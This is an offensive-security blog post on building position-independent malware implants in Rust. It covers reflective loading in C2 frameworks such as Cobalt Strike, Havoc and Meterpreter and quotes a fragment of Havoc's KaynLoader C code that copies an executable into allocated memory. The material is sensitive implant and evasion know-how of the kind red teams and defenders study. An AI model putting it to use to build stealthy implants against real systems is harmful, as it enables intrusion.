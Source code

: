 +++
title = "Corroding Defenses: Modern Implant Design"
date = "2025-03-15T01:26:47Z"
author = "Irate-Walrus"
cover = ""
tags = ["rustlang", "implant", "PIC", "cross-platform"]
keywords = ["implant", "Rust", "PIC", "cross-platform"]
readingTime = true
toc = true
+++

## 1.0.0 - Introduction

Two years ago (2023) CISA published [The Urgent Need for Memory Safety in Software Products](https://www.cisa.gov/news-events/news/urgent-need-memory-safety-software-products) where they recommended Rust as a memory-safe and performant replacement for C and C++.

This begs the question, surely a "modern" implant design calls for a "modern" memory safe language? Is this even advisable?

While I answered neither of these questions here. It did confirm to me that, while not always straight forward, a full PIC implant in Rust is both possible and potentially more maintainable than its "unsafe" (who are we kidding here, this is all going to be unsafe anyway) counterparts.

So, grab your favourite pair of socks and let's get going.

## 2.0.0 Reflective Loading: A Standard Convention

Reflective Loading is the current standard for any off-the-shelf memory implants.

Look no further than:
- Cobalt-Strike's [_User Defined Reflective Loader (UDRL)_](https://www.cobaltstrike.com/product/features/user-defined-reflective-loader)
- Havoc C2's [`KaynLoader`](https://github.com/HavocFramework/Havoc/blob/main/payloads/DllLdr/Source/Entry.c)
- Meterpreter's [`ReflectiveLoader`](https://github.com/rapid7/ReflectiveDLLInjection/blob/master/dll/src/ReflectiveLoader.c) - also in use by Sliver C2

Reflective loaders make life easy, objects that require relocations such as static strings "just work", required memory protections are set, and the memory addresses of functions exported by the implant for use by extensions formats such as `BeaconDataParse` and `BeaconPrintf` are known memory addresses.

The reflective loading process can be summarised as (example from [`KaynLoader`](https://github.com/HavocFramework/Havoc/blob/main/payloads/DllLdr/Source/Entry.c)):

1. The executable is copied into allocated memory.

```c
/* KaynLoader() @ https://raw.githubusercontent.com/HavocFramework/Havoc/9f2b14bf1e7544b6845d4ea8981d8b99dc686f4c/payloads/DllLdr/Source/Entry.c */
/* 43 */    if ( NT_SUCCESS( Instance.Win32.NtAllocateVirtualMemory( NtCurrentProcess(), &KVirtualMemory, 0, &KMemSize, MEM_COMMIT, PAGE_READWRITE ) ) )
/* 44 */    {
/* 45 */        // ---- Copy Headers into new allocated memory ----
/* 46 */        Memcpy(KVirtualMemory, KaynLibraryLdr, NtHeaders->OptionalHeader.SizeOfHeaders);
/* 47 */        ( ( PIMAGE_NT_HEADERS ) KVirtualMemory )->OptionalHeader.ImageBase = KVirtualMemory;
/* 48 */
/* 49 */        // ---- Copy Sections into new allocated memory ----
/* 50 */        SecHeader = IMAGE_FIRST_SECTION( NtHeaders );
/* 51 */        for ( DWORD i = 0; i < NtHeaders->FileHeader.NumberOfSections; i++ )
/* 52 */        {
/* 53 */            Memcpy(
/* 54 */                RVA2VA( PVOID, KVirtualMemory, SecHeader[ i ].VirtualAddress ),      // Section New Memory
```